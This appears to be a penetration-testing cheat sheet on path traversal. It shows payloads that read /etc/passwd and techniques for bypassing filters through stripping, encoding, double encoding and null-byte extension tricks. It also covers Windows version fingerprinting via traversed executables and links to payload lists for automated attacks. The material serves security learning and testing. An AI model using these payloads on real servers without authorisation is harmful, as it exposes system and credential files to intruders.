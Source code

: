 ```yaml
---
title: "Path traversal"
weight: 19
description: "Explore path traversal vulnerabilities, including bypass techniques and exploitation methods. Learn how attackers use encoding, double encoding, and null bytes to access restricted files on servers."
---
```


# Path traversal

## General info

Consider

```html
<img src="/loadImage?filename=218.png">
```

An attacker can request the following URL to retrieve the `/etc/passwd` file from the server's filesystem.

`https://insecure-website.com/loadImage?filename=../../../etc/passwd`

## Bypass defenses

* Elimination (strip): `../` -> `....//`
  * Test: try to change the original request `GET /image?filename=1.jpg` to `GET /image?filename=../1.jpg`
  * If the file is loaded the code strip `../`
* Encode: `../` -> `%2e%2e%2f`
* Double-encode: `../` -> `%252e%252e%252f`
* Require to start with the expected base folder es. `/var/www/images` -> `filename=/var/www/images/../../../etc/passwd`
* Require to end with an expected file extension es. `.png` -> `filename=../../../etc/passwd%00.png`
* Others

{{< hint style=notes >}}
**Note**: On Windows, both `../` and `..\` are valid directory traversal sequences.
{{< /hint >}}

## Tips

* Don't always trust error messages
  * `GET /image?filename=/etc/passwd` -> "No such file"
    * Try to add null byte: `GET /image?filename=/etc/passwd%00`
    * Try to add null byte and extension: `GET /image?filename=/etc/passwd%00.png`
* Combine the cases:
  * Example: `....//....//....//etc/passwd%00.jpg` (strip, double-encode, null byte, whitelist extension)
  * `%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252Fetc%252Fpasswd%252500%252Ejpg`

## Common files

**Linux**: 
- https://github.com/MrW0l05zyn/pentesting/blob/master/web/payloads/lfi-rfi/lfi-linux-list.txt

**Windows**: 
- Short list: https://github.com/MrW0l05zyn/pentesting/blob/master/web/payloads/lfi-rfi/lfi-windows-list.txt
- Long list: https://github.com/soffensive/windowsblindread/tree/master

{{< hint style=tips >}}
**Tip**: On Windows, you can also try using a different drive letter than *C:*.
{{< /hint >}}

## Identify Windows version

1. Retrieve a Microsoft executable from the target system:
- `C:/Windows/explorer.exe`
- `C:/Windows/notepad.exe`
- `C:/Windows/system32/ntoskrnl.exe`

2. Check version information:
```bash
exiftool explorer.exe

[...]
OS Version                      : 10.0
Image Version                   : 10.0
Subsystem Version               : 10.0
Subsystem                       : Windows GUI
File Version Number             : 10.0.14393.7513
Product Version Number          : 10.0.14393.7513
File Flags Mask                 : 0x003f
File Flags                      : (none)
File OS                         : Windows NT 32-bit
Object File Type                : Executable application
File Subtype                    : 0
Language Code                   : English (U.S.)
Character Set                   : Unicode
Company Name                    : Microsoft Corporation
File Description                : Windows Explorer
File Version                    : 10.0.14393.7513 (rs1_release.241021-1750)
Internal Name                   : explorer
Legal Copyright                 : © Microsoft Corporation. All rights reserved.
Original File Name              : EXPLORER.EXE
Product Name                    : Microsoft® Windows® Operating System
Product Version                 : 10.0.14393.7513
[...]
```

3. Compare the version number with the following official table: https://learn.microsoft.com/en-us/windows/win32/sysinfo/operating-system-version.

{{< hint style=tips >}}
**Tip**: Some operating systems may share the same version name (e.g., Windows 10 and Windows 11), which can make identification tricky. To accurately determine the OS version, check the build number (e.g., `14393`) and refer to this resource: https://www.gaijin.at/en/infos/windows-version-numbers.
Alternatively, you can search the product version on Google for more information.
{{< /hint >}}



## Automatic exploitation

Use intruder with this list: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/Intruder/deep\_traversal.txt](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/Intruder/deep_traversal.txt)&#x20;
